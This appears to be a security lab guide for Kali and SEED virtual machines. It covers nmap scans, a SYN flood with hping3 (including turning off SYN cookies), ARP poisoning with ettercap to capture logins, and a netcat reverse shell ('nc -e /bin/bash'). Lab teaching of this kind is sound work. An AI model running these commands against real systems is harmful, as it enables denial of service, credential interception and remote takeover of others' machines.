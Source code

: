 ### nmap Common commands

```
nmap <ip-address or ip-range>
nmap <hostname>
nmap -p <port number or range> <ip-address>
nmap -sS <ip-address>
nmap -sT <ip-address>
nmap -sU <ip-address>
nmap -sP <ip-address>
nmap -O -v <ip-address>
nmap -sV -O -v <ip-address>
nmap -A <ip-address>
```

### SYN Flood/DoS

1. Start your kali VM and login.
2. Note IP address of kali VM.   
3. Start Victim1 VM.   
4. Note IP address of SEEDUbuntu1 VM.  
5. Start wire shark on SEEDUbuntu1 VM. 
6. Switch to kali VM. 
7. On command prompt type following command: `nmap [IP of Victim1]` 
8. Note open port of Victim1   
9. On command prompt type the following command `hping3 –S [target IP Addr] –a [src IP Addr] –p [open port no.] --flood` 
10. After sometime stop SYN flooding. 
11. Switch to Victim1 
12. Stop wireshark. 
13. Set filter in wireshark to IP addr of kali VM.
14. Observe large number of SYN packets. 
15. If your attack seems unsuccessful, one thing that you can investigate is whether the SYN cookie mechanism is turned on. SYN cookie is a defense mechanism to counter the SYN flooding attack. The mechanism will kick in if the machine detects that it is under the SYN flooding attack. You can use the sysctl command to turn on/off the SYN cookie mechanism:

```
a. # sysctl -a | grep cookie (Display the SYN cookie flag) 
b. # sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie) 
c. # sysctl -w net.ipv4.tcp_syncookies=1 (turn on SYN cookie)
```

### ARP Poisoning

1. Start and login in Kali VM, Victim1 VM and Victim2 VM. 
2. Note IP address of each VM and test connectivity using ping. 
3. Switch to Kali VM 
4. Note connected interface (eth0, eth1 or wlan0 etc.) 
5. Go to application →sniffing and spoofing → ettercap. 
6. Select unified sniffing and interface. 
7. Click host → scan for hosts. 
8. Click host → Hosts list 
9. Select Victim1 and click Add to target 1 
10. Select Victim2 and click Add to target 2 
11. Start wireshark on all three VMs
12. On ettercap, Click Mitm →ARP poisoning

**TO CHECK IF IT WORKED:**

a. Switch to Victim1 VM 
b. Connect to any website which requires login. 
c. Type UN and PW. 
d. telnet to Victim2 VM 
e. Switch to Kali VM and view the capture in wireshark 

### Netcat Reverse Shell

##### On victim machine

```
nc -e /bin/bash <attacking ip> <port>
```

Note : /bin/bash can be replaced with path to another shell

##### On attacking machine : 
```
nc -lvnp <port>
```

